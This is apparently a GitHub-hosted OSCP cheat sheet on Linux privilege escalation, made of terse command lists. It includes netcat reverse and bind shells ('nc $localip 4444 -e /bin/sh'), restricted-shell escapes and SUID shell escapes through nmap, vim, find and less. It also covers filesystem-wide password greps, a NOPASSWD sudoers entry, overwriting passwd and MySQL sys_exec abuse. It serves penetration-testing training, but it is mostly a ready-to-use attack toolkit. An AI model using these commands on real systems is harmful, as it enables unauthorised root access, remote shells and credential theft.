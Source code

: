 # Linux privilege escalation

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#spawn-interactive-shell-and-set-env)Spawn Interactive Shell and set env

python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash

stty rows <> colums <>

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#restricted-bash)Restricted bash

perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#check-environment)Check environment

Check any restricitions on any folders  
mount -l >> any no exec or no suid?

Check any unmounted drives  
cat /etc/fstab

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#suid)SUID

find / -perm -1000 -type d 2>/dev/null # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.  
find / -perm -g=s -type f 2>/dev/null # SGID (chmod 2000) - run as the group, not the user who started it.  
find / -perm -u=s -type f 2>/dev/null # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i ( -perm -4000 -o -perm -2000 ) -type f 2>/dev/null; done # Looks in 'common' places: /bin, /sbin < quicker

-find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied) find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} ; 2>/dev/null

find / perm /u=s -user "User name that you are looking for" 2>/dev/null

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#writable-file-and-nobody-files)Writable file and nobody files

find / -xdev -type d ( -perm -0002 -a ! -perm -1000 ) -print # world-writeable files  
find /dir -xdev ( -nouser -o -nogroup ) -print # Noowner files

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#writable-by-current-user)Writable by current user

find / perm /u=w -user `whoami` 2>/dev/null  
find / -perm /u+w,g+w -f -user `whoami` 2>/dev/null  
find / -perm /u+w -user `whoami` 2>/dev/nul

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#any-script-files-that-we-can-modify)Any script files that we can modify?

find / -writable -type f -name "*.py" 2>/dev/null #find all python file that can be write by us

ls -aRl / | awk '$1 ~ /^._w._/' 2>/dev/null # Anyone  
ls -aRl / | awk '$1 ~ /^..w/' 2>/dev/null # Owner  
ls -aRl / | awk '$1 ~ /^.....w/' 2>/dev/null # Group  
ls -aRl / | awk '$1 ~ /w.$/' 2>/dev/null # Other

find / -readable -type f 2>/dev/null # Anyone  
find / -readable -type f -maxdepth 1 2>/dev/null # Anyone

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#any-service-running-by-root)Any service running by root?

ps aux|grep "root"

/usr/bin/journalctl (Which is normally not readable by a user) << cron job?

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#find-password)Find password

grep -rnw '/' -ie 'pass' --color=always  
grep -rnw '/' -ie 'DB_PASS' --color=always  
grep -rnw '/' -ie 'DB_PASSWORD' --color=always  
grep -rnw '/' -ie 'DB_USER' --color=always

# [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#exploit-time)Exploit Time

## [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#suid-1)SUID

#### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#is-suid-bit-set-on-these-applications)Is suid bit set on these applications?

Nmap  
nmap -V <Nmap version 2.02 - 5.21 had an interactive mode  
nmap --interactive  
nmap> !sh

Vim  
Modify system file, e.g. passwd?

```
vim.tiny  
- Press ESC key  
:set shell=/bin/sh  
:shell  
```

find  
touch pentestlab  
find pentestlab -exec netcat -lvp 5555 -e /bin/sh ;

Bash  
bash -p

More

Less  
less /etc/passwd  
!/bin/sh

Nano  
Can you modify system file?  
Modify /etc/suoders  
<user> ALL=(ALL) NOPASSWD:ALL

cp  
Use cp to overwrite passwd with a new password

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#is-there-a-custom-suid-application)Is there a custom suid application?

How can this application be run?  
Can be modify the path variable so that it will execute something else

## [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#nfs-priv-esc)NFS priv esc

[https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb](https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb)

## [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#linux-capability)Linux capability

find / -type f -print0 2>/dev/null | xargs -0 getcap 2>/dev/null getcap -r /

google that capability on how it can help us get root

## [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Linux%20Priv%20Esc.md#mysql-run-by-root)Mysql run by root

MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library [https://www.exploit-db.com/exploits/1518/](https://www.exploit-db.com/exploits/1518/)

You can also try select sys_exec('echo test>/tmp/test.txt'); select sys_eval('echo test>/tmp/test.txt');